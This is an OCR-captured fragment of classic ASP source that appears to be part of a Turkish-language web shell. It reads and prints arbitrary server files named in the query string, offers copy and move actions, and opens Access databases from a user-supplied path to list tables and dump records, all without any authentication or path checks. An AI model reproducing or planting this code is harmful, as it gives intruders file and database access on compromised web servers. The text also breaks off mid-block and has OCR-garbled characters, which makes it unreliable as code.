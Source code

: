         Response.Write "&lt;input type=hidden value='19' name=status&gt;&lt;input type=hidden value='"& Replace(Trim(Request.QueryString("file")),"|","\") &"' name=path&gt;&lt;input type=hidden value='"&time&"' name=Time&gt;"
        Response.Write "&lt;input style='width:250; height:21' value='"& Replace(Trim(Request.QueryString("file")),"|","\") &"' name=cf&gt;"
        response.Write "&lt;input type=submit value='Copy' style='height:22;width:70' id=submit1 name=submit1&gt;"
        Response.Write "&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td colspan=3 align=center&gt;&lt;font size=2&gt;"
        response.Write "&lt;input type=radio name='islem' value='kopyala' checked&gt;Copy"
        response.Write "&lt;input type=radio name='islem' value='tasi'&gt;Move"
        response.Write "&lt;/table&gt;"
        response.Write "&lt;/form&gt;"
        End IF
    Case "search"
         If (Trim(Request.Form("submit1")) = "Search") xor Trim(Request.QueryString("status"))&lt;&gt;"" Then
          showdisks=FALSE
       status5=Trim(Request.Form("status"))
      if status5="" then status5=Trim(Request.QueryString("status"))
           SELECT CASE status5
        CASE "5"
            Response.Write "&lt;center&gt;&lt;b&gt;&lt;font color=orange&gt;"& Trim(Request.QueryString("path")) &"&lt;/font&gt;&lt;/b&gt;&lt;/center&gt;&lt;br&gt;"
            Response.Write "&lt;table width=100% &gt;&lt;tr&gt;&lt;td&gt;"
            set f = objFSO.OpenTextFile(Trim(Request.QueryString("path")),1)
            Response.Write "&lt;pre&gt;"&Server.HTMLEncode(f.readAll)&"&lt;/pre&gt;"
            if err.number=62 then Response.Write "&lt;script language=javascript&gt;alert('Bu Dosya Okunam?yor\nSistem dosyas?olabilir')&lt;/script&gt;":Response.End
           CASE "7":
            Response.Write "&lt;b&gt;&lt;font size=3&gt;Tables&lt;/font&gt;&lt;/br&gt;&lt;br&gt;"
            Set objConn = Server.CreateObject("ADODB.Connection")
            Set objADOX = Server.CreateObject("ADOX.Catalog")
            objConn.Provider = "Microsoft.Jet.Oledb.4.0"
            objConn.ConnectionString = Trim(Request.QueryString("path"))
            objConn.Open
            objADOX.ActiveConnection = objConn
            For Each table in objADOX.Tables
                If table.Type = "TABLE" Then
                    Response.Write "&lt;font face=wingdings size=5&gt;4&lt;/font&gt; &lt;a href='"& Request.ServerVariables("SCRIPT_NAME") &"?action=search&status=8&Path="& Trim(Request.QueryString("path")) &"&table="&table.Name&"'&gt;"&table.Name&"&lt;/a&gt;&lt;br&gt;"
                End If
            Next
        CASE "8":
            table=Trim(Request.QueryString("table"))
            Response.Write "&lt;font color=red&gt;&lt;h4&gt;Table Name: " & table & "&lt;/h4&gt;&lt;/font&gt;&lt;br&gt;&lt;Br&gt;&lt;br&gt;"
            Set objConn = Server.CreateObject("ADODB.Connection")
            Set objRcs = Server.CreateObject("ADODB.RecordSet")
            objConn.Provider = "Microsoft.Jet.Oledb.4.0"
            objConn.ConnectionString = Trim(Request.QueryString("path"))
            objConn.Open
            objRcs.Open table,objConn, adOpenKeyset , , adCmdText
    